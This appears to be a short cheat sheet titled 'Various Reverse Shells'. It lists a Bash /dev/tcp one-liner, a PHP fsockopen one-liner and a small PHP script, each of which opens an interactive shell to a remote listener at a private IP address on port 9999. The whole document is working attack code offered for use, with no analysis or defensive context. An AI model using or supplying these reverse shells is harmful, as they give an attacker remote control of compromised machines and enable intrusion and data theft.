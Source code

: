# Various Reverse Shells

# Bash
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
##

# PHP
php -r '$sock=fsockopen("10.0.0.1",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
##
<?php

$cmd = 'echo "bash -i >& /dev/tcp/10.8.0.14/9999 0>&1" | bash';
exec($cmd);

?>
##
